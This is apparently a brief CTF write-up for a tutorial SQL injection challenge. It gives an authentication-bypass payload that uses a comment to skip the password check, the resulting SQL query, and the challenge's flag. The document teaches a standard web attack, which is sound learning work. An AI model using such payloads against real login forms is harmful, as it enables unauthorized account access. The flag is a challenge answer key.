

# SQL101

Hi there! 

It's time to learn about SQL injection, a famous and representative web attack skill. 

The server is running at: http://sqli101.sstf.site/step2.php. 

This is a **tutorial** challenge.
If you are not sure how to solve this,  
please refer to the **tutorial guide ([Eng](https://onedrive.live.com/embed?resid=F7E83213DDD289C7!2257&authkey=!ALtIE_cNe-XDn2o&em=2))**.

## Solution



- `login= admin' ##`
- `password=whatever`

SQL request is:

```sql
SELECT * FROM `users` WHERE id='admin' ## ' AND pw='whatever'
```

## Flag

```
SCTF{th3_f1rs7_5t3p_t0_the_w3B_h4ckEr}
```

